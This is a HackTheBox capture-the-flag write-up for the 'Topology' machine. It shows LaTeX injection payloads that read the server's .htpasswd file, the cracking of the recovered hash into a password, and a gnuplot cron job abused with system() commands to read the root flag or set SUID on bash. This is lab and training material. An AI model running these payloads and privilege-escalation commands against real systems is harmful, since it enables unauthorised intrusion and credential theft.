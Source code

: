 # [Topology](https://app.hackthebox.com/machines/Topology) - 04/08/2023 - HackTheBox write-up

## User flag

### Discovery

Starting with ̀`nmap` we can only found 2 different services : a SSH and an HTTP server on port 80.

The home page contains only an HTML site with a link to *latex.topology.htb/equation.php*. After some errors
with name resolutions, the solution was to just add *latex.topology.htb* to `/etc/hosts`.

Now, we have a page that take a LaTeX math input, typically an equation, and turn it into an image. So we can
think about LaTeX injection.

### Searching for vulnerability

By trying some payloads, we can deduce that some commands are blocked such as `\input` or `\write18`. Instead
we can use this snippet from [hacktricks](https://book.hacktricks.xyz/pentesting-web/formula-doc-latex-injection#read-single-lined-file) :
```latex
\newread\file
\openin\file=/etc/issue
\read\file to\line
\text{\line}
\closein\file
```

But, reading multiple lines is impossible with that because the command `\loop` is blocked too. However we can
use the command ̀`$\lstinputlisting{<file>}$` to read an entire file. Don't forget the `$` symbol or it will not
work.

### Exploitation

We have an arbitrary file read vulnerability and now we need to exploit it.

Before finding the vulnerability I ran a vhost enumeration with `gobuster`:
```bash
gobuster vhost --append-domain -u topology.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
```

and find those two additional subdomains:
    - `dev.topology.htb`
    - `stats.topology.htb`

The second isn't interesting but the first is protected with a Basic authentication. So, with our LFI we can
read the `.htpasswd` file from the `dev` subdomain. Our payload will be:
```
$\lstinputlisting{/var/www/dev/.htpasswd}$
```

It returns : `vdaisley:$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTYO`. This is a custom Apache hash format, with
many MD5 iterations. It correspond to the mode 1600 for `hashcat`, so we can try to crack it :
```bash
$ hashcat -m 1600 -a 0 htpasswd.txt /usr/share/wordlists/rockyou.txt
[...]
$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0:calculus20
```

The site behind the Basic HTTP authentication contains nothing, but we can reuse this credentials to connect
to the server through SSH, and get the user flag.

## Root flag

### Searching for elevating privileges

After researches I didn't found anything on the server. I found a new tool `pspy` that monitor all the commands
run on the system. After running it, we can find a cron job, running by root, that run the following command :
```bash
$ find /opt/gnuplot -name *.plt -exec gnuplot {} ;
```

It will execute all `.plt` file in `/opt/gnuplot/` folder with `gnuplot`.

### Exploitation

The problem is, we can run system command with Gnuplot, just by running `system "<cmd>"`.

So, we just need to create a file containing a command that allow us to read the root flag such as:
```
echo 'system "cat /root/root.txt > /tmp/anyfile"' > /opt/gnuplot/write-flag.plt
# or
echo 'system "chmod u+s /bin/bash"' > /opt/gnuplot/suid-bash.plt
```

